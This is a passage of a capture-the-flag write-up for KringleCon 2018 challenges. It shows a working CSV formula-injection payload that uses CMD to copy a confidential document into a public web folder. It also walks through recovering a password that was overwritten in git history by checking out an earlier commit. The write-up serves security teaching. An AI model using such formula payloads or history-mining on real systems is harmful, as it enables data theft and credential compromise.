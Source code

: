 The following csv file works:

``` csv
111,=CMD|'/c copy C:\candidate_evaluation.docx C:\careerportal\resources\public\myfile.txt'!A1,33
55,44,77
```

Now we can access the file at `https://careers.kringlecastle.com/public/myfile.txt`, change the extension and view it.

The answer is `Fancy Beaver`.

## Dev Ops Fail
**The answer is `twinkletwinkletwinkle`.**

Similar to another challenge, credentials have been committed to git and then overwritten. This time we do not have a nice web interface to view the commits and must use the command line.

`kcconfmgmt` is a git repo. Either `grep -ir password` or do `git log -10` to see the last 10 commit messages.

Two of the commit messages are:

```
commit 60a2ffea7520ee980a5fc60177ff4d0633f2516b
Author: Sparkle Redberry <sredberry@kringlecon.com>
Date:   Thu Nov 8 21:11:03 2018 -0500
    Per @tcoalbox admonishment, removed username/password from config.js, default settings
 in config.js.def need to be updated before use

commit b2376f4a93ca1889ba7d947c2d14be9a5d138802
Author: Sparkle Redberry <sredberry@kringlecon.com>
Date:   Thu Nov 8 13:25:32 2018 -0500
    Add passport module
```

So the credentials where in `config.js`. It has been replaced by `config.js.def` which is clean:

``` js
elf@03a47cb7373b:~/kcconfmgmt/server/config$ cat config.js.def 
// Database URL
module.exports = {
    'url' : 'mongodb://username:password@127.0.0.1:27017/node-api'
};
```

We can just revert to the commit **BEFORE THE OVERWRITE** and look inside that file:

* `git checkout b2376f4a`

`config.js` is now available:

``` js
elf@03a47cb7373b:~/kcconfmgmt/server/config$ cat config.js 
// Database URL
module.exports = {
    'url' : 'mongodb://sredberry:twinkletwinkletwinkle@127.0.0.1:27017/node-api'
};
```
